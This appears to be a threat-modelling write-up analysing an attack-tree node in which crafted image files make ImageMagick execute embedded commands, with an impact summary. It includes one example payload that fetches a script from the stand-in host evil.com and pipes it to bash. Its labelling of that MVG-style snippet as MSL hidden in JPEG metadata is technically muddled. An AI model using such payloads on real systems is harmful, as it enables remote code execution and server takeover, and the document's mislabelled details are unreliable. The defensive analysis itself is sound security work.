 ### 4. Deep Analysis of Attack Tree Path: Inject Malicious Code via Image File [CRITICAL NODE]

This critical node highlights a significant security risk where attackers can leverage ImageMagick's image processing capabilities to execute arbitrary code on the server or within the application's context. The core issue lies in ImageMagick's ability to interpret and execute instructions embedded within image files, particularly through MSL and SVG.

#### 4.1. Attack Vector: Crafting images with malicious MSL (Magick Scripting Language) code that ImageMagick interprets and executes.

**Description:**

ImageMagick includes a powerful scripting language called Magick Scripting Language (MSL). While intended for complex image manipulation tasks, MSL can be abused by attackers to execute arbitrary commands on the underlying system. By crafting an image file that contains malicious MSL code, an attacker can trick ImageMagick into executing these commands when the image is processed.

**How it Works:**

1. **Attacker Crafts Malicious Image:** The attacker creates an image file (e.g., JPEG, PNG, GIF) that embeds malicious MSL code within its metadata or image data. This code can include commands to:
    *   Execute shell commands (e.g., `system:`, `url:`).
    *   Read or write files on the server.
    *   Download and execute further payloads.
    *   Potentially compromise other services accessible from the server.

2. **Application Processes the Image:** The vulnerable application, using ImageMagick, receives and attempts to process the malicious image. This could happen through user uploads, fetching images from external sources, or other image processing workflows.

3. **ImageMagick Interprets MSL:** When ImageMagick encounters the embedded MSL code during processing, it interprets and executes the commands specified within the script.

4. **Malicious Code Execution:** The malicious commands are executed with the privileges of the user or process running ImageMagick. This can lead to severe consequences depending on the nature of the commands and the system's configuration.

**Example of Malicious MSL:**

```msl
push graphic-context
viewbox 0 0 640 480
image Over 0,0 0,0 'url:https://evil.com/malicious.sh||bash -i'
pop graphic-context
```

This example attempts to download and execute a shell script from a remote server.

**Impact:**

*   **Remote Code Execution (RCE):** The most critical impact is the ability for attackers to execute arbitrary code on the server, potentially gaining full control of the system.
*   **Data Breach:** Attackers can access sensitive data stored on the server or connected databases.
*   **System Compromise:** The entire server or application can be compromised, leading to service disruption, data corruption, or further attacks on internal networks.
*   **Denial of Service (DoS):** Malicious MSL can be used to consume excessive resources, leading to a denial of service.
